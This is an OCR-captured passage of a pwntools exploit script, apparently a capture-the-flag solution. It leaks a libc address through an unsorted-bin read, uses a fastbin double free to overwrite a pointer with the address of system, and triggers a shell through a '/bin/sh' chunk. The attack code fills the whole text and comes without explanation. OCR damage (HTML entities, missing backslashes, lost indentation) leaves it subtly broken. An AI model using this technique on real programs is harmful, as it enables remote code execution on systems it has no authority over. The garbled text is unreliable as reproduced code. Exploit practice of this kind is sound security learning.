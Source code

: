 ```
sh.recvuntil('&gt; ')
sh.sendline('2 '+str(idx))


def puts(idx):
sh.recvuntil('&gt; ')
sh.sendline('3 '+str(idx))




malloc(0, 0x58, "aa")
malloc(1, 0x58, "bb")
malloc(2, 0x58, "cc")
malloc(3, 0x80, "dd")
malloc(4, 0x10, "ee")


# unsorted bin leak
free(3)
puts(3)
leak = sh.recvuntil('x7f').ljust(8, "x00")
leak = u64(leak)


libc_base = 0
if LOCAL:
libc_base = leak-3951480
else:
libc_base = leak-3951480


# ubuntu 1604 server
log.success("libc base: %s" %hex(libc_base))




# double free
free(0)
free(1)
free(0)


payload = "f"*80
payload += p64(0)+p64(0x61)
payload += p64(0x600dba)


malloc(5, 0x58, payload)
malloc(6, 0x58, "gg")


system = libc_base + 0x45390
payload = "h"* 6 + p64(system)*2
malloc(7, 0x58, payload)


malloc(8, 0x20, "/bin/shx00")
free(8)


#debug()
```